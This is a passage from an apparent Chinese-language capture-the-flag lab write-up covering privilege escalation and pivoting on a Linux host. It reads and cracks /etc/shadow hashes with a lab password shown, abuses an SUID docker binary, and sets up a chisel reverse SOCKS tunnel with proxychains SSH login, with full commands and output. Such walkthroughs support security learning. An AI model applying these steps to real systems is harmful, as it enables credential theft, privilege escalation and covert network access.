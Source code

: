 ```

查看```/etc/shadow```，用hashcat破解出linux-admin的用户密码是：```linuxrulez```

**Task 20  Privilege Escalation Call me Mario, because I got all the bits**

> What is the full path of the binary with an SUID bit set on L-SRV01?

> /usr/bin/docker

> What is the full first line of the exploit for the SUID bit?

> sudo install -m =xs $(which docker) .

**Task 21  Post Exploitation From the Shadows**

> What non-default user can we find in the shadow file on L-SRV01?

> linux-admin


**Task 22  Post Exploitation Crack all the Things**

> What is the plaintext cracked password from the shadow hash?
> linuxrulez


## chisel配置动态端口转发

kali执行
```
./chisel server -p 8000 --reverse
```

客户端执行
```
./chisel client 10.50.111.108:8000 R:socks
```

```/etc/proxychains4.conf```配置

```
socks5  127.0.0.1 1080
```

ssh登录
```
┌──(root💀kali)-[~]
└─# proxychains ssh linux-admin@10.200.114.33                                                                                                                                                                                         255 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  127.0.0.1:9050 <--socket error or timeout!
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  127.0.0.1:9051 <--socket error or timeout!
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  10.200.114.33:22  ...  OK
The authenticity of host '10.200.114.33 (10.200.114.33)' can't be established.
RSA key fingerprint is SHA256:43K5xtSCUtS9tdIFuE60lTb3CLW0O+cPzfiGDj2oCFg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.200.114.33' (RSA) to the list of known hosts.
linux-admin@10.200.114.33's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1030-aws x86_64)
